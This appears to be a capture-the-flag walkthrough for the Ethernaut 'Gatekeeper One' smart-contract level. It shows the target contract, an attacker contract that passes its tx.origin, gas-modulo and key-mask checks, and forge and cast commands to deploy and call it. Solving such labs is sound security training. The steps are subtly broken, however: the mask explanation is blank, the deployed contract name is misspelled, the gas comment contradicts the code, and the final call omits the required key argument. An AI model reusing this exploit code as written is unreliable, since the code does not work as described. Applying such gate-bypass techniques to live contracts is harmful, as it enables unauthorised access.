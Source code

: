 ## Gatekeeper One Level Outline

**Difficulty : 5/10**

Make it past the gatekeeper and register as an entrant to pass this level.

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract GatekeeperOne {

  using SafeMath for uint256;
  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    require(gasleft().mod(8191) == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
      require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
      require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
      require(uint32(uint64(_gateKey)) == uint16(tx.origin), "GatekeeperOne: invalid gateThree part three");
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0x9b261b23cE149422DE75907C6ac0C30cEc4e652A)

## Solution

### Walkthrough

to pass the first modifier `gateOne()`, the transaction needs to come from a smart contract.

to pass the second modifier `gateTwo()`, the remaining gas needs to be divisible by 8191. To satisfy this, we will use [foundry's debugger](https://book.getfoundry.sh/forge/debugger.html?highlight=debugger#debugger) to find the right gas amount in order to pass the check.

to pass the third modifier `gateThree()`, we need to byte mask our address with `` to pass all three checks.

##### 1. Create a new [forge project](https://book.getfoundry.sh/projects/creating-a-new-project.html) with the following contract in `src` 

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract Attack {
    GateKeeperOne gateKeeper;

    constructor(address _gateKeeper) {
        gateKeeper = GateKeeperOne(_gateKeeper);
    }

    // 0x8208b86dA007aa26 (last 4 bytes of addr)
    // 7747 (gas used found from debugger) + 57337 (8191 * 7)
    function enter(bytes8 addr) public {
        bytes8 key = addr & 0xFFFFFFFF0000FFFF;
        gateKeeper.enter{gas: 7747}(key);
    }
}

interface GateKeeperOne {
    function enter(bytes8 _gateKey) external returns (bool);
}
```

##### 2. 

```console
forge create src/Contract.sol:Attacl --constructor-args $LEVEL_ADDRESS --private-key  $PRIVATE_KEY
```

##### 3. Call our newly deployed contract 
```console
cast send $DEPLOYED_ADDRESS "enter()" --private-key=$PRIVATE_KEY 
```
> Replace $DEPLOYED_ADDRESS with the address of your deployed contract

## Further Reading


